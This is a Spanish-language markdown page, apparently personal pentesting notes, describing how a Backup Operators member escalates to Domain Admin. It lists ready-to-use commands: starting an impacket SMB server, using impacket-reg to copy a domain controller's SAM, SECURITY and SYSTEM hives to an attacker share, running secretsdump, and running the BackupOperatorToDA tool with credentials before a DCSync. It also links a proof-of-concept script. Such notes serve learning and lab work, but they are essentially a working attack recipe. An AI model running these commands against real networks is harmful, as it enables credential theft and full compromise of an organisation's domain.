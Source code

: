 # Backup Operator to Domain Admin Attack

### [Video](https://youtu.be/wUy2VXL2y-w)

## ¿Qué es?

- Es un ataque que permite a un atacante escalar privilegios de **Backup Operator** a **Domain Admin**.
- Se basa en la capacidad de los operadores de backup de realizar copias de seguridad de los controladores de dominio.
- Los operadores de backup pueden leer y escribir en los controladores de dominio.

## Ataque explicado
![alt text](./backupOperator.png)
- En este ejemplo el usuario **melissa** es miembro de **Backup Operators**.

### Mi propio metodo
- [https://github.com/G4sp4rCS/backup-operator-to-domain-admin-POC](https://github.com/G4sp4rCS/backup-operator-to-domain-admin-POC)
- Script automatizado compatible con evil-winrm y powershell.

### Metodo 1 con impacket
- Abris un smbserver con impacket
    - `impacket-smbserver -smb2support "share" .`
- Luego con el usuario backup operator podes hacer un backup de los archivos del DC
    - `impacket-reg domain/melissa@IP-DE-COMPUTADORA-QUE-MELISSA-PUEDE-ACCEDER backup -o \\IP-DE-TU-MAQUINA\share`
- Entonces con secretsdump podes obtener las credenciales de los usuarios
    - `impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL`
    - Y con esto es muy probable que nos de un hash con un usuario que nos deje hacer un DCSync.

### Metodo 2 con BackUpOperatorToDA
- [Sitio oficial de la herramienta](https://kb.offsec.nl/tools/techniques/backupoperatortoda/)
- Nos descargamos el .exe y lo ponemos en la maquina que tiene el rol de backup operator.
- Tiras con impacket: `impacket-smbserver -smb2support "share" .`
- Y desde la otra PC: `.\BackupOperatorToDA_release.exe -t \\IP-DE-TU-MAQUINA\share -u melissa -p LA-PASSWORD -d DOMAIN.LOCAL`
- Luego es lo mismo, secretsdump + dcsync.